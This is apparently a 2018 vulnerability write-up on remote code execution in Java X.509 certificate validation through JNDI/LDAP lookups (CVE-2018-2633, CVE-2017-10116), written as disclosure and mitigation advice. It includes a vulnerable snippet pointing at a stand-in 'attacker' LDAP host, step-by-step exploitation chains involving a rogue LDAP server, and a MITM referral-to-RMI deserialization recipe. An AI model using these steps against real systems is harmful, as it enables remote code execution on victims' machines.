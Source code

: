 ```yaml
---
layout: post
title:  "Java: Possible RCEs in X.509 certificate validation [CVE-2018-2633][CVE-2017-10116]"
date:   2018-01-20 17:53:24 +0100
categories: Java Security Vulnerability JNDI
---
```



> **Executive summary**, so that you don't have a heart attack before we get into the gritty details.
>
> **CVE-2018-2633** - fixed in the January 2018 CPU - allows remote code execution under two conditions:
> - ``com.sun.security.enableAIAcaIssuers==true`` - which is hopefully as uncommon as a google search suggests, or
> - CRL checking/downloads are enabled (mostly ``com.sun.security.enableCRLDP==true``, but also possibly other configurations)
>   and the attacker can forge a <u>otherwise valid/trusted certificate</u> with an invalid CRL distribution point URL.
>
> **CVE-2017-10116** - fixed in the July 2017 CPU - possibly allowed code execution through Java
> deserialization for an attacker in a MITM position.
>
> All of these apply to all regular X.509 certificate validation using Java's built-in implementation,
> i.e. TLS client, TLS server (if client certificates are used), JAR verification... but only under
> aforementioned conditions.

# JNDI - The Root of all Evil

Using JNDI is a quite dangerous game, especially if you think of it as just an LDAP client.

#### Crazy Feature A: The native ability to store Java objects in LDAP, including remote codebase references.

Back at Blackhat 2016 Alvaro Muñoz and Oleksandr Mirosh [presented](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) some RCE vectors through JNDI/LDAP APIs. However, they only seem to have identified issues based on ``Context.lookup()`` and ``Context.search()`` (when ``returningObj==true``). Essentially controlling the lookup name or the directory contents in conjunction with these calls leads to both the ability to launch a Java deserialization attack (encoded objects in tree) or direct code execution (through JNDI ``Reference`` factory loading).

While JNDI/RMI in the meantime (starting with 8u121) has codebase restrictions applied for JNDI ``Reference`` loading, the same is not true for JNDI/LDAP (fun fact: at the same time there are codebase restrictions for encoded objects).

Using JNDI as a general purpose LDAP client, none of the methods mentioned above are all that common.

#### Crazy Feature B: Composite name lookups

If storing objects in the directory is not crazy enough, let me introduce [composite name](https://docs.oracle.com/javase/jndi/tutorial/beyond/names/composite.html) lookups. A composite name is one that has multiple *components* separated by /, e.g. ``foo/bar/whatever`` or as the documentation puts it "a name that spans multiple naming systems" which technically translates to multiple JNDI ``Context``s.

Taking a name like ``foo/bar/whatever`` it's first component (=``foo``) will be used to *lookup* the ``Context`` which is used to handle the remainder of the name (=``bar/whatever`` having two components).

Did I hear a ``lookup()`` in there? Yes. The intermediate ``Context`` is resolved by calling ``lookup()`` on the first component with the aforementioned consequences (code execution).

So what is the difference? That logic is invoked on pretty much any ``Context``/``DirContext`` method call, e.g. ``DirContext.getAttributes()``, ``DirContext.search()`` or even ``Context.getNameParser()`` which are more common as ``lookup()`` and the likes. The following code is vulnerable

```
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://attacker:389/"); // <-- attacker supplied
InitialDirContext ctx = new InitialDirContext(env);
ctx.getAttributes("o=exploit/me"); // <-- attacker supplied
```

1. The name argument ``o=exploit/me`` is parsed and has more than one component.
2. Invokes ``Context.lookup()`` with the first component ``o=exploit`` (absolute: ``ldap://attacker:389/o=exploit``).
3. The attacker's [rogue LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) returns a ``Reference`` result.
4. Object Factory is instantiated from remote codebase -> RCE.


> ldapURLContextFactory handles the URL path (which is the directory name) as a single component name.
> Therefor the name passed in PROVIDER_URL or a full URL passed as the name to one of the context methods is not handled as composite.
>
> For direct exploitation the attacker needs to control both the PROVIDER_URL and a name argument. If the attacker can only control the name argument the attack is still be possible from a MITM position.

The good news is that nobody thought it was a good idea to bring the same features to JNDI/DNS.

# Introducing LDAPCertStore/URICertStore [CVE-2018-2633]

Java Cryptography Architecture ``CertStore``s are implementations for looking up either X.509 certificates or CRLs for validation purposes. LDAPCertStore implements lookups in LDAP directories and uses JNDI to load Certificates/CRL specified by an LDAP URI. URICertStore is a wrapper around that which also adds support for loading from HTTP URIs.


The JNDI context setup in ``LDAPCertStore.createInitialDirContext()`` looks like
```
String url = "ldap://" + server + ":" + port;
Hashtable<String,Object> env = new Hashtable<>();
env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, url);
ctx = new InitialDirContext(env);
```
``server`` and ``port`` are ultimately taken from the ``URICertStore``'s URI.

The actual retrieval JNDI call can be found in ``LDAPCertStore$LDAPRequest.getValueMap()``
```
attrs = ctx.getAttributes(name, attrIds);
```
``name`` is from the URI's path and used to be neither validated nor escaped properly.

Putting that together, accessing an URICertStore constructed from an attacker supplied URI like ``ldap://attacker/o=exploit/bar`` (which btw. is not a legal LDAP URI) ultimately resulted in remote code execution.

So where is this stuff used? Well, during X.509 certificate/PKIX path validation.

#### AuthorityInformationAccess: caIssuers

The AuthorityInformationAccess extension, known for specifying the location of the OCSP server, also has a record type that can be used to indicate an URI where additional intermediate CA certificates for the issuing CA can be obtained.

Java might be the only piece of software actually programmatically using that information. If the system property ``com.sun.security.enableAIAcaIssuers`` is set to ``true`` during path validation and an unknown issuer is encountered - the implementation will try to load the caIssuers to find certificates that can complete the validation path to a trusted root. Loading happens through URICertStore with the caIssuers URI.

As we haven't established a trust path at that point, no actual validation of the certificate has taken place. An attacker can easily create a certificate with an arbitrary caIssuers location that will result in remote code execution as it is fed into the URICertStore.

In terms of vulnerabilities this is about as bad as it gets, however a google search for the required ``enableAIAcaIssuers`` setting shows very few results, indicating that this is indeed a very rare configuration.

#### CRLDistributionPoints

The CRLDistributionPoints extension specifies the download location for X.509 certificate revocation lists. These are loaded through URICertStore, too.

``com.sun.security.enableCRLDP==true`` is a much more common configuration. However we are lucky in that CRL checking/download only happens after path validation. That means that for successful exploitation the attacker has to be able to obtain a certificate with a custom distribution point extension that is signed by a CA trusted by the victim. That would be pretty bad enough on it's own - however normally not result in direct code execution. Apart from a very resourceful attacker having access to a trusted CA, systems allowing weak X.509 signatures schemes (MD5, SHA1) may be exploitable.

Some custom validator usages, e.g. as used for JAR signature validation in Java WebStart, also enable the CRL download functionality when the system property is not set.


# Bonus points: JNDI cross protocol referrals [CVE-2017-10116]

Another crazy feature of JNDI/LDAP is that it allows non-LDAP URIs in LDAP referrals (that seems to be intended behavior: ["The URLs are usually, but not necessarily, LDAP URLs"](https://docs.oracle.com/javase/jndi/tutorial/ldap/referral/overview.html)). These returned referral URLs are used as JNDI names, so one can return an LDAP referral pointing to an object on a RMI server.

When following referrals is enabled, an attacker controlling responses from an LDAP server, meaning either controlling an LDAP server the vicitim connects to or - in the absence of transport security - being able to MITM another LDAP connection, can trigger a connection to an arbitrary RMI server resulting in the deserialization of untrusted data.

LDAPCertStore follows referrals. In the July 2017 CPU a new referral mode LDAP_REF_FOLLOW_SCHEME was added and used in LDAPCertStore that only follows referrals to other LDAP servers. The January 2018 CPU switches to custom handling of referrals.

If CURL downloads are enabled but the attacker cannot produce a valid certificate with a custom distribution point this possibly allows for another attack from a MITM position:

1. Get into a MITM position between the victim and the CA's LDAP server.
2. Wait/make the vicitim validate a certificate containing any ldap:// CRL distribution point. You may as well just get one from a legitimate CA.
3. [Depending on the revocation check settings, ensure that the OCSP check fails.]
4. When the victim sends it's LDAP request for the CRL, answer with a referral to a RMI server that will return a serialized payload.

**That is not fixed in general.** Any JNDI/LDAP client usage that is configured to follow referrals and not using transport security is affected by that as well. One should use LDAP_REF_FOLLOW_SCHEME instead of LDAP_REF_FOLLOW for normal LDAP operation.
